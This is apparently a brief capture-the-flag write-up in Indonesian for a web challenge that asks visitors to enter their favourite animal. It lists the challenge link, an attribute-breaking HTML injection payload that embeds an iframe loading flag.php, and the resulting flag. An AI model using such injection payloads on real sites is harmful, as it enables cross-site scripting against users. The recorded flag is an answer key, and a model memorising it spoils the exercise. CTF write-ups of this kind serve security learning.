 Setiap manusia mempunyai hewan kesukaan bukan ? Nahh coba ketik hewan kesukaan kalian :D

Link : https://web.ctf.rasyidmf.com/chal30/

Bug Payload :
```
"><iframe src='flag.php'></iframe>
```

Flag:

```
CTFR{cr055_s1t3_5cr1pt1ng}
```